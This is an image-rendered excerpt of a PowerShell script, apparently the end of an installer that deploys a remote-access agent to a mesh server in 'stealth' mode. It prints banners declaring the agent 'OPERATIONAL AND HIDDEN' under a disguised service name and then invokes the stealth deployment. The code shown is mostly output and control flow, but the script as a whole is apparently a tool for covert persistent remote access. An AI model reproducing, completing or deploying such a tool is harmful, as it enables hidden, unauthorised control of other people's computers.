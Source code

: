 ```powershell
    Write-Host "================================================================" -ForegroundColor Green
    Write-Host ""

    # Verification
    Write-Host "Running deployment verification..." -ForegroundColor Cyan
    Write-Host ""

    Start-Sleep -Seconds 5

    if (Test-StealthDeployment) {
        Write-Host ""
        Write-Host "================================================================" -ForegroundColor Green
        Write-Host "    STEALTH DEPLOYMENT SUCCESSFUL" -ForegroundColor Green
        Write-Host "    Agent Status: OPERATIONAL AND HIDDEN" -ForegroundColor Green
        Write-Host "    Service Name: $($StealthConfig.ServiceName)" -ForegroundColor Green
        Write-Host "================================================================" -ForegroundColor Green
        Write-Host ""

        Write-StealthLog "===== DEPLOYMENT COMPLETED SUCCESSFULLY =====" -Level 'SUCCESS'
        return $true
    } else {
        Write-Host ""
        Write-Host "================================================================" -ForegroundColor Yellow
        Write-Host "    STEALTH DEPLOYMENT COMPLETED WITH WARNINGS" -ForegroundColor Yellow
        Write-Host "================================================================" -ForegroundColor Yellow
        Write-Host ""

        Write-StealthLog "===== DEPLOYMENT COMPLETED WITH WARNINGS =====" -Level 'WARNING'
        return $true
    }
}

# Execute deployment
$deploymentSuccess = Invoke-StealthDeployment -ServerUrl $MeshServerUrl -InstallHash $MeshInstallHash -Level $StealthLevel

if ($deploymentSuccess) {
    Write-Host "Deployment log available in: $env:TEMP" -ForegroundColor Gray
    exit 0
} else {
    Write-Host "Deployment failed. Check logs for details." -ForegroundColor Red
    exit 1
}
```

---
